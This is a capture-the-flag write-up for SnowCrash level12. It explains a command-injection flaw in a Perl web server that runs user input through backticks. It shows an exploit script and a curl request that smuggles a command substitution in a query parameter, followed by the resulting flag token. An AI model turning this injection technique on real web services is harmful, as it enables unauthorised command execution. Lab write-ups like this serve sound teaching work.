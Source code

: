 ## Level12

We found a file, [level12.pl](./level12.pl)

It serves as a web server. The important part being that it executes a command after passing it through a regex eval:

```lua
# to upper equivalent
$xx =~ tr/a-z/A-Z/; 
# delete if there is a space
$xx =~ s/\s.*//;
```

It basically transfrom what we pass to uppercase.

But this is the interesting part:

```lua
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

Here it executes a `egrep` with the argument we pass on.

We can create a file containing the command we want to be executed:

```bash
cat /var/crash/EXPLOIT
#!/bin/sh
getflag | wall
chmod 755 /var/crash/EXPLOIT
```

We can then pass the path of our file with the script as a curl parameter as such:

The fact that we pass it between backticks evaluates the command so it execute the script!

```bash
level12@SnowCrash:~$ curl localhost:4646?x='`/*/*/EXPLOIT`'

Broadcast Message from flag12@Snow
        (somewhere) at 17:18 ...

Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

..level12@SnowCrash:~$
```

## Token

g1qKMiRpXf53AWhDaU7FEkczr